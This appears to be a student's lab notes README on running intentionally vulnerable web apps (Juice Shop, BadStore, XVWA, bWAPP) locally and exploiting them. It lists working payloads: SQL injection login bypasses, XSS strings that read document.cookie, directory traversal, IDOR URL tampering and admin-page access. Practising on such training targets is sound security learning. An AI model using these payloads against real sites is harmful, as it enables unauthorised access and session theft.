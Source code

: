 # mikeryan_vuln

install docker 

https://docs.docker.com/engine/install/debian/

sudo docker ps [to view running docker process]

[if there is an error like docker already running 

then run command 
sudo docker stop (container_name)
if required 
sudo docker rm (conatiner_name) ]


1) Juice Shop 

	install docker 

	sudo docker pull bkimminich/juice-shop

	sudo docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop

	http://localhost:3000



Vulnerability 

	1) in url add: 
 	    localhost:3000/#/administration

	2) inside login 
	for username give 'OR 1=1-- and password anything

	3) go to inspect
	 add script inside div tag class="cdk-live-announcer-eleme cdk-visually-hidden"
	<img rc="invalid_image" onerror="alert('XSS')">

	4) Directory Traversal 
	http://localhost:3000/ftp

	5) Information Disclosure (API Data)
	curl -X POST http://localhost:3000/api/export-data -d "user_id=1234"

	info got in output

	Framework Info:Express.js
	Third-Party Libraries: Libraries like morgan
	File Paths and Line Numbers: Exposes internal paths, such as 
	/juice-shop/build/routes/angular.js, revealing where the error occurred in the 
	app.
	

if required
	sudo docker stop juice-shop
	sudo docker rm juice-shop



2) BadStore

	sudo docker pull jvhoof/badstore-docker

	sudo docker run -d -p 80:80 jvhoof/badstore-docker

	http://localhost

vulnerability 

     1) in search bar add 

        <script>alert('XSS')</script>

         you will get xss

	2)  in search bar add
	<script>alert(0)</script>
 
	you will get pop up showing reflected XSs

	3) in supplier login 
	within email address add payload 

	1’ or ‘1’=’1-- -  
	or 
	admin

	you will be able to login as a supplier 

	3) Click on supplier contract and it will download the contract without you being 	an authenticated supplier ie. you have not logged in as supplier yet 

	4) in browser url add

	http://localhost/cgi-bin/badstore.cgi?action=admin

	u will directly log in as admin and showing BAC

	5)  in terminal , information disclosure for server used

	curl -I http://localhost/cgi-bin/badstore.cgi

	6) SQL injection , found all available products 
	http://localhost/cgi-bin/badstore.cgi?action=search&search&query=1'OR'1'='1





3) XVWA


download iso file 
https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/


run the iso file on vm ware 
once open xvwa 

ifconfig on xvwa machine 

using that ip , on kali browser
do 
http://192.168.71.132/xvwa/


vulnerability 

	1) server side template injection 

	there add <script>alert(0)</script>

	2) in sql injection 

	add in search 1 or ' , and submit it will give error based output (reason upto)

	3) insecure object reference 

	in url item=some one number in range 1 to 5 
	but we give more than 5 still it take as input and display output 
	so first select item and submit , then change url 

	http://192.168.71.132/xvwa/vulnerabilities/idor/?item=7

	4) created a vulnerable payload using gedit or nano (eg add script to it)

	go to unrestricted file upload and upload image 
	no intput sanitisation 

	5) login using username pass admin and admin 
	then go to missing access control and you can delete select options

	then logout 
	and again go to missing access control there select an option 
	click on view 
	and on url change action=view to action=delete



4) BWAPP


docker pull raesene/bwapp

docker run -d -p 8080:80 raesene/bwapp

in browser 

http://localhost:8080/install.php

Login to bwapp
Username:bee
Password:bug

Find the vulnerabilities

	1) Sql injection(get search)

	‘OR 1==1—
	click search you will get , error based , click search again 

	2) Cross site scripting

	Select html injection (reflected)
	
	Then in frst and last name u add payload
	First name=<script>alert(document.cookie);</script>
	Last name=<img src=x onerror=alert(document.cookie)>
	Right click on page – view source page [check for script you have injected]

	3) information disclosure
	Select information disclosure-php version

	4) curl -I http://localhost:8080/login.php

	5) directory traversal-
	directories u select under a7 and press hack
	http://localhost:8080/directory_traversal_2.php?directory=documents
	
	remove documents and add =../
	Payload=http://localhost:8080/directory_traversal_2.php?directory=../

	6) oldbackup and unreferred file under a5
	
	Just change the url
	localhost:8080/sm_obu_files.php
	smo_obu_files.php change to backdoor.php

	





	 


                         

